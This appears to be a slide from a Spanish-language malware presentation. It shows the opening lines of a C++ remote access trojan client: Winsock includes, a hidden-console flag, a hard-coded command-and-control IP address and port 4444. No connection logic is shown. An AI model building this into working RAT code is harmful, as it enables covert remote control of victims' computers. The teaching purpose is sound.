

# Ejemplo de programa (cliente)

// ratX_client - C++ rat (para Windows 10 presentación de malware)
#include <iostream>
#include <winsock2.h>
#include <windows.h>
#include <string>

#pragma comment(lib, "ws2_32.lib") // Enlaza la librería Winsock

bool DisableHiddedConsole = false;  // Determina si la consola debe ocultarse
#define SERVER_IP "79.147.14.41" // Dirección IP del servidor
#define PORT 4444 // Puerto donde se conectará al servidor
#define BUFFER_SIZE 8192 // Tamaño del buffer de datos